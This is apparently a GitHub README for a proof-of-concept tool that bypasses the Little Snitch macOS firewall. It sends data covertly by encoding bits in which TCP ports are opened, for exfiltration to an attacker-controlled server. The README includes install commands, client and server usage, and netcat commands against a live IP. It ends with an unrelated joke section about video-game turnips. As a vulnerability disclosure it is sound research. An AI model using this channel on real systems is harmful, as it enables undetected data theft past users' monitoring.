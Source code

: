 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Install

```
tag=$(curl -s https://api.github.com/repos/RhinoSecurityLabs/little-stitch/releases/latest|jq -r '.tag_name'|tr -d 'v')
curl -L "https://github.com/RhinoSecurityLabs/little-stitch/releases/download/v${tag}/little-stitch_${tag}_$(uname -s)_$(uname -m).tar.gz" \
    | tar -xvf - -C /usr/local/bin/ little-stitch
```

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Underlying Issue

Little Snitch does not actually trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons Little Snitch alerting seems to be inconsistant when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which appears to be more
reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data we want to encode our data, into attributes of the connection which are settable by an
underprivileged user client-side, and will be readable on the same connection server-side.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

The transfer speed in this PoC is not terribly fast, based on observations it appears to be able to upload at about a 16 bit/s
and download at about 8 bit/s. It's worth pointing out that this PoC has not been optimized at all and is just running the
simplest thing that will work, it should be possible to increase this number by many fold. Some optimizations that might help
here is using the source port to encode data in addition to the destination port, parallelizing some off the transfer would
likely help quite a bit as well. Currently the majority of time is spent waiting on TCP connections to close, because everything
is run serialized this ends up slowing things down quite a bit. There's also likely other attributes of the connection that could
be used to store data, the urgent bit as an example (I suspect several others I'm not thinking of as well). So this is slow right
now, but I wouldn't rely on that.

## What's with the Little Stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it appart from the other turnips isn't it's
rarety however, it's the punch it packs at 34% damage, making it the most powerfull item that is legal in turnament play.

Turnip Tip: after you throw it and it hit's your opponant try recatching it by jumping and pressing Z when the turnip bounces back and passess
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Propability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
